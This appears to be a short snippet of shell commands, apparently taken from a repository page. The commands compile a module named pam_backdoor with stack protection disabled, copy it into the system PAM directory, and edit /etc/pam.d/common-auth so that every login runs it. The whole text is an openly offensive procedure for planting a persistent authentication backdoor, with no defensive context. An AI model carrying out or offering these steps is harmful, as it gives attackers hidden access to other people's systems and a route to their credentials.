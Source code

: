 sudo apt update  
sudo apt install libpam0g-dev  
gcc -fPIC -fno-stack-protector -c pam_backdoor.c  
ld -x --shared -o pam_backdoor.so pam_backdoor.o  
sudo cp pam_backdoor.so /lib/x86_64-linux-gnu/security/
sed -i '1i auth required pam_backdoor.so' /etc/pam.d/common-auth  
